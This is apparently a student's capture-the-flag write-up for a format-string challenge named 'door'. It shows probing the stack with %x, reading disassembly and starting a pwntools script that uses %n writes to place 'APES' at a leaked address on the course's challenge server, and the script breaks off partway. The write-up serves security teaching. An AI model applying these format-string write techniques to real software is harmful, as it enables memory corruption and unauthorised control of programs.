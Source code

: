 door
===========================
Flag: FLAG{}
General overview of problems faced
-------------------------------------
I was generally pretty comfortable with format strings from COMP6841 and the only added thing was %n. So for the most part the challenge was straightforward with minor exceptions and blank moments.
- Handling writing a value lower than the previous write: solved after discovering the method of overflowing to the next bit
- Was initially writing the "APES" backwards to try and account for little-endianness until I realised that was wrong. Just a mindblank.

Script/Command used (Writeup)
------------------
We enter APplES as per the program's instructions and nothing happens (surprise surprise). Entering a simple format string '%x' prints some hex value so we know there's a format string vulnerability.
Entering '%x' 50 times results in `25fd4d24 78252078 20782520 25207825 78252078` and so on. '%' in ascii is 0x25, ' ' is 0x20 and 'x' is 0x78 so it's clear that these values being printed off the stack, is the string that we entered into the buffer.
We add AAAA to the front of our input and we get `AAAA41fa4d24 25414141 78252078 20782520`. Ideally we want to fix this alignment so we have a whole 4 bytes of contiguous A's on the stack so we'll add AAAAA instead to get `AAAAA 41f41d24 41414141 20782520 25207825`.
So the data after the A's starts at stack offset 3.

Now, we look at the `main` function and notice a `strcmp` some time after we enter our input (which uses `fgets` so no buffer overflow)
```
push    0x4
lea     eax, [ebp-0x9 {var_d}]
push    eax {var_d} {var_218_1}
lea     eax, [ebx-0x15c6]  {data_9f6, "APES"}
push    eax  {data_9f6, "APES"}
call    strncmp
```
So the string "APES" is compared to the data at ebp-0x9. If we go to the beginning of `main` we see this is the address that was printed out:
```
lea     eax, [ebp-0x9 {var_d}]
push    eax {var_d} {var_214}
lea     eax, [ebx-0x16f8]  {data_8c4, "A landslide has blocked the way …"}
push    eax  {data_8c4, "A landslide has blocked the way …"}
```
So, we just need to write "APES" to the address we are given:
```
from pwn import *

# returns the number of bytes needed to write
# for a correct %n exploit. it handles the case
# when an overflow is needed.
def get_n(new, prev, size):
    while new <= prev:
        new += (1 << size)
    return new-prev

p = remote('plsdonthaq.me', 4001)

p.recvuntil('the way at ')
target_addr = int(p.recvline().rstrip(), 16)

payload = b'AAAAA'
payload += p32(target_addr)
payload += p32(target_addr + 1)
payload += p32(target_addr + 2)
payload += p32(target_addr + 3)

```